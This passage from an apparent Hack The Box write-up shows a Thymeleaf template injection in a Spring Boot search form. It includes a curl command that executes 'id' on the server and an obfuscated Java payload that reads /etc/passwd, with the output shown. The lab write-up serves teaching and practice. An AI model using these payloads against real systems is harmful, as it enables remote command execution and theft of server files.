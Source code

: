 ## User

### Identifying the vulnerability

Manual fuzzing for SSTI / SQLi / XSS failed in the GET parameters.

However, in the POST search `#{7*7}` works:

```
You searched for: ??49_en_US??
```

Spring Boot is made in Java and it uses [Thymeleaf][spring-boot-template-engine] as template engine.

For once [Hacktricks][hacktricks-ssti] was not enough since the dollar sign is banned.

[Acunetix][acunetix] shows the different kinds of payloads in Thymeleaf:

```
${...}: Variable expressions – in practice, these are OGNL or Spring EL expressions.
*{...}: Selection expressions – similar to variable expressions but used for specific purposes.
#{...}: Message (i18n) expressions – used for internationalization.
@{...}: Link (URL) expressions – used to set correct URLs/paths in the application.
~{...}: Fragment expressions – they let you reuse parts of templates.
```

And indeed replacing the `$` on the payloads from Hacktricks works:

```shell
curl -i -s -k -X $'POST' \
    -H $'Content-Type: application/x-www-form-urlencoded'\
    --data-binary $'name=(*{T(java.lang.Runtime).getRuntime().exec(\'id\')})' \
    $'http://10.10.11.170:8080/search'
# <h2 class="searched">You searched for: Process[pid=8691, exitValue=&quot;not exited&quot;]</h2>
```

Sidenote: the tool Tplmap fails to detect the SSTI.

```shell
tplmap -u http://10.10.11.170:8080/search -X POST -d 'name=greg' --level 5
```

### Crafting a Java payload

The dollar is banned and the system calls all returned the process id.
Reverse shells through system calls failed too for me, most likely because of a firewall since the website itself is proxied.

In the end I could read file using Java functions:

```java
T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(100))).getInputStream())
/*<h2 class="searched">You searched for: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
```

[acunetix]: https://www.acunetix.com/blog/web-security-zone/exploiting-ssti-in-thymeleaf/
[author-profile]: https://app.hackthebox.com/users/25507
[cve-3560-poc]: https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation
[hacktricks-ssti]: https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#thymeleaf-java
[hacktricks-xxe]: https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity#read-file
[panda-stats]: images/panda-stats.png
[panga-search]: images/panga-search.png
[spring-boot-template-engine]: https://www.baeldung.com/spring-template-engines#thymeleaf